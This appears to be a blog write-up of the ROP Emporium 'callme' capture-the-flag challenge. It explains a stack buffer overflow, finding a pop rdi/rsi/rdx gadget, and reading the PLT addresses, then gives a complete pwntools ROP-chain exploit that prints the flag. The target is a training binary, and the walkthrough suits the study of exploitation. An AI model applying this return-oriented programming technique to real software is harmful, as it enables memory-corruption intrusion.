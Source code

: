 ```yaml
---
layout: post
title: Ropemporium callme challenge
date: 2021-12-20 21:08 +0300
categories: [malware]
tags: [ctf, ropemporium]
---
```


## Introduction

Challenge Description

The goal of the challenge is understanding how more than one argument is passed in x64 function. The challenge can be downloaded from the author`s website [ropemporium](https://ropemporium.com)

> Reliably make consecutive calls to imported functions.
> Use some new techniques and learn about the Procedure Linkage Table.

The program needs make consecutive calls to a function with three arguments in order to get a correct flag. The challenge description is similar to the split challenge.

> **You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)**

check the binary protections enabled on the `callme` binary, only **NX**( Not Executable) is enabled on the binary as shown below.

```bash
vx@archie:callme$ checksec --file callme
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```

Open **callme** binary in radare2 to look for exploitable vulnerability and examine the behavior. radare2 is a powerful disassembler/debugging tool used for examining the behavior of programs.

![](/assets/images/ropemporium/callme_bug.png)

From the above image we use **pdf** command to disassemble a given function. Function **pwnme** looks similar to the previous challenges ret2win and split.

From the aDisassembled program, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. memset is used to overwrite any values that is present in the memory area specified. The memory area we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the address of base pointer in the stack.
![](/assets/images/ropemporium/stack.png)

Next function is read function, which reads for user input and stores in the allocated buffer.

```c
ssize_t read(int fd, void *buf, size_t count);
```

From assembly code, we are reading `0x200` bytes from the standard input file descriptor and storing it in buffer, meaning we are reading more than what the buffer can hold therefore leading to a stack buffer overflow.

For exploitation stack overflow, fill the buffer, overwrite rbp register and control the return address with desired address.

Because the system function receives one argument, look for one gadgets that we control the rdi, rsi and rdx registers.

**What are gadgets?**

Gadgets are sequence of instructions the end with ret. because we want to load three argument into registers, we will look for a pop rdi, pop rsi, pop rdx; ret instruction in order to pass an arguments to the callme_one, callme_two, callme_three functions.

The example of the **pop rdi,pop rsi,pop rdx, ret** gadget is shown in image below.

![](/assets/images/ropemporium/poprdi_callme.png)
Next is determine addresses of `callme_one`, `callme_two`, `callme_three` functions using gdb.

```nasm
(gdb) info functions
All defined functions:
Non-debugging symbols:
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
(gdb)
```

Reverse engineer one of the target function in order to understand how the arguments are passed to the function.Because the **callme** binary does PLT relocations of the functions of callme, disassemble the target shared library **libcallme.so** as shown below.

```nasm
vx@archie:callme$ gdb -q libcallme.so
Reading symbols from libcallme.so...
(No debugging symbols found in libcallme.so)
(gdb) disas callme_one
Dump of assembler code for function callme_one:
   0x000000000000081a <+0>:	push   rbp
   0x000000000000081b <+1>:	mov    rbp,rsp
   0x000000000000081e <+4>:	sub    rsp,0x30
   0x0000000000000822 <+8>:	mov    QWORD PTR [rbp-0x18],rdi
   0x0000000000000826 <+12>:	mov    QWORD PTR [rbp-0x20],rsi
   0x000000000000082a <+16>:	mov    QWORD PTR [rbp-0x28],rdx
   0x000000000000082e <+20>:	movabs rax,0xdeadbeefdeadbeef
   0x0000000000000838 <+30>:	cmp    QWORD PTR [rbp-0x18],rax
   0x000000000000083c <+34>:	jne    0x912 <callme_one+248>
   0x0000000000000842 <+40>:	movabs rax,0xcafebabecafebabe
   0x000000000000084c <+50>:	cmp    QWORD PTR [rbp-0x20],rax
   0x0000000000000850 <+54>:	jne    0x912 <callme_one+248>
   0x0000000000000856 <+60>:	movabs rax,0xd00df00dd00df00d
   0x0000000000000860 <+70>:	cmp    QWORD PTR [rbp-0x28],rax
   0x0000000000000864 <+74>:	jne    0x912 <callme_one+248>
   0x000000000000086a <+80>:	mov    QWORD PTR [rbp-0x8],0x0
   0x0000000000000872 <+88>:	lea    rsi,[rip+0x32f]        # 0xba8
   0x0000000000000879 <+95>:	lea    rdi,[rip+0x32a]        # 0xbaa
   0x0000000000000912 <+248>:	lea    rdi,[rip+0x301]        # 0xc1a
   0x0000000000000919 <+255>:	call   0x6c0 <puts@plt>
   0x000000000000091e <+260>:	mov    edi,0x1
   0x0000000000000923 <+265>:	call   0x720 <exit@plt>
   0x0000000000000928 <+270>:	nop
   0x0000000000000929 <+271>:	leave
   0x000000000000092a <+272>:	ret
End of assembler dump.
(gdb)
```

From the disassembly code above, the function compares the arguments passed to the callme_one function. If string values are not equal to values passed to the `rdi`, `rsi` and `rdx` registers the program exits, otherwise we get a flag.

From previous knowledge of solving other challenges, we need to overwrite the return address with controlled pop rdi, pop rsi, pop rdx, ret gadget and call each function in a sequential manner.

Fully working rop chain code.

```python
import pwn

#Various setting for pwntools
pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./callme')

pop_rdi_rsi_rdx = pwn.p64(0x0040093c)  #pop rdi; pop rsi; pop rdx; ret gadget
arg1 = pwn.p64(0xdeadbeefdeadbeef)
arg2 = pwn.p64(0xcafebabecafebabe)
arg3 = pwn.p64(0xd00df00dd00df00d)

callme_one_addr = pwn.p64(0x0000000000400720)
callme_two_addr = pwn.p64(0x0000000000400740)
callme_three_addr =pwn.p64(0x00000000004006f0)

#call the callme_one function
callme_one = pop_rdi_rsi_rdx
callme_one += arg1
callme_one += arg2
callme_one += arg3
callme_one += callme_one_addr

#callme_two function
callme_two = pop_rdi_rsi_rdx
callme_two += arg1
callme_two += arg2
callme_two  += arg3
callme_two += callme_two_addr

#callme_three function
callme_three = pop_rdi_rsi_rdx
callme_three += arg1
callme_three += arg2
callme_three += arg3
callme_three += callme_three_addr

payload = b"A" *32   #fill the buffer
payload += b"B" * 8  #overwrite the rbp
payload += callme_one
payload += callme_two
payload += callme_three

io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Successful execution of the above code, correct flag is printed.

![](/assets/images/ropemporium/callme-flag.png)
